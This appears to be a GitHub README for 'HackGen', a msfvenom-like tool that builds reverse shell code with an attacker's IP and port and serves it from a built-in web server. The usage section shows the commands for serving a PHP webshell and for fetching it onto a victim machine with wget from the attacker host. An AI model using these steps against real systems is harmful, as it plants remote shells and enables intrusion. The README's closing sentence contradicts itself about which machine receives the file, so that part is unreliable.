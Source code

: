 # HackGen
> Pretty much msfvenom, but I hate Metasploit >:(

##Installation:
- Clone this repo to whatever directory you want
- Change the path of the rshells.db database to the <b>ABSOLUTE</b> path of the install dir
- Optional: Link the "hackgen.py" script to somewhere in your path so it can be executed from anywhere!

##Usage:
> Use the `-h` flag for details on the usage.
This script was created to easily produce reverse shell codes with an attacker's IP & port in the script.
It can also urlencode or base64 encode the resulting script.
###Webserver:
One fun feature is that you can start hackgen as a webserver which makes it incredibly easy to get rshell code onto a target.
Once the hackgen command us run with the `-w` flag, it will start a webserver on port 8000. When a GET request is sent to the server, it will reply with just the rshell string. Because the server will return the same rhsell code no matter the requested endpoint, a simple way to save to a file is to use `wget` to get a specific page from the server. Because all "pages" return the same thing, wget will end up writing the retrieved rshell to the fetched page. For example, if we wanted to write a PHP webshell to file "webshell.php", on the attacker machine we would run the command:
```
hackgen.py <your ip> <your port> -wf php -n webshell
```
And on the victim machine, we would run:
```
wget http://<your ip>:8000/webshell.php
```
This will save the PHP webshell to the attacker machine under the filename: "webshell.php"
